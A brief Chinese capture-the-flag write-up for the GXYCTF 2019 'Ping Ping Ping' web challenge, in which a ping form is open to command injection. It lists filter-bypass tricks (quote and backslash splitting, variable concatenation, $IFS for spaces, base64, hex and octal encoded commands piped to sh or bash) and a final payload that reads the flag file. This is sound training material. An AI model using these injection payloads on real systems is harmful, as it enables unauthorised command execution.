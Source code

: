 ﻿[GXYCTF 2019]Ping Ping Ping

看到题目先ping一下

![](Aspose.Words.d13fb6ed-5ef3-4d5a-b2b0-8e20d162a155.001.png)

尝试获取flag

![](Aspose.Words.d13fb6ed-5ef3-4d5a-b2b0-8e20d162a155.002.png)

发现有过滤，搜了一下基础的绕过

**黑名单(关键字）绕过**

- 单引号、双引号绕过：c"at"t fl''ag
- 反斜线绕过：ca\t fl\ag
- 和

·  @绕过：c$1at fl$@ag

·  拼接绕过：a=c;b=at;c=fl;d=ag; $a$b $c$d （不用加｜） 

- /?ip=127.0.0.1;a=g;cat$IFS$1fla$a.php或者
- /?ip=1;a=f;d=ag;c=l;cat$IFS$a$c$d.php 

·  base64： 

- echo "Y2F0IGZsYWc="|base64 -d
- echo "Y2F0IGZsYWc="|base64 -d|bash
- |echo$IFS$1Y2F0IGZsYWcucGhw|base64$IFS$1-d|sh 

·  hex编码绕过： 

- echo "0x63617420666c61670a" | xxd -r -p|bash 

·  oct编码绕过： 

- $(printf "\x63\x61\x74\x20\x66\x6c\x61\x67")
- {printf,"\x63\x61\x74\x20\x66\x6c\x61\x67"}|$0 



Payload:127.0.0.1;** |echo$IFS$1Y2F0IGZsYWcucGhw|base64$IFS$1-d|sh 

得到flag

![](Aspose.Words.d13fb6ed-5ef3-4d5a-b2b0-8e20d162a155.003.png)

